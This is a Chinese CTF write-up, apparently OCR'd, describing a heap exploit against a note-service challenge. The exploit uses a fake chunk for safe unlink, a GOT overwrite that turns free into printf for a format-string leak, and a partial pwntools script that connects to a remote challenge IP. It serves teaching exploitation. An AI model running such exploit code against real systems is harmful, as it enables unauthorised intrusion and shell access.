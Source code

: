 我们使用的溢出数据是用于构造一个fake chunk来实现safe unlink的利用，具体的原理可以看这一章节的讲解。

```
data = ''
data += p64(0) + p64(512+1) #fake chunk header
data += p64(0x6020e0-0x18) + p64(0x6020e0-0x10) #fake fd and bk
data += 'A'*(512-32)
data += p64(512) + p64(512+16)
```

之后释放note4，note3与note4就会合并。note3_ptr会指向note0_ptr的位置。这样我们通过不断的修改note0_ptr的值和edit note0就可以实现任意地址写数据。

但是题目没有提供show功能，所以无法进行任意地址读，也就无法泄漏数据。
这里采用的办法是把free的got表改为printf的值，然后在bbs中一块空白的区域写入"%x"。
这样当free这块区域（这块区域在ptr_array中，所以可以直接传递给free），就可以泄漏出栈中的数据。
通过栈中的libc地址求出system的地址就可以利用任意地址写获得shell

```
free(4)

edit(3,free_got)
edit(0,printf_plt)

edit(3,p64(0x6020e8))
edit(0,'%llx.'*30)
```
完成的exp如下

```
#!/usr/bin/python
# -*- coding: utf-8 -*-
from pwn import *
import time
def malloc(size,data):
    print conn.recvuntil('>>')
    conn.sendline('1')
    print conn.recvuntil('1024)')
    conn.sendline(str(size))
    print conn.recvuntil('content:')
    conn.sendline(data)
    print conn.recvuntil('\n')
def edit(id,data):
    print conn.recvuntil('>>')
    conn.sendline('3')
    print conn.recvuntil('note:')
    conn.sendline(str(id))
    print conn.recvuntil('ent:')
    conn.sendline(data)
    print conn.recvuntil('success')
def free(id):
    print conn.recvuntil('>>')
    conn.sendline('4')
    print conn.recvuntil('note:')
    conn.sendline(str(id))
    print conn.recvuntil('success')

#conn = remote('127.0.0.1',9999)
conn = remote('115.28.27.103',9003)
free_got = p64(0x602018)
puts_got = p64(0x602020)
stack_got = p64(0x602038)
printf_got = p64(0x602030)
exit_got = p64(0x602078)
printf_plt = p64(0x400750)
puts_plt = p64(0x400730)
#libcstartmain_ret_off = 0x21b45
#sys_off = 0x414f0
```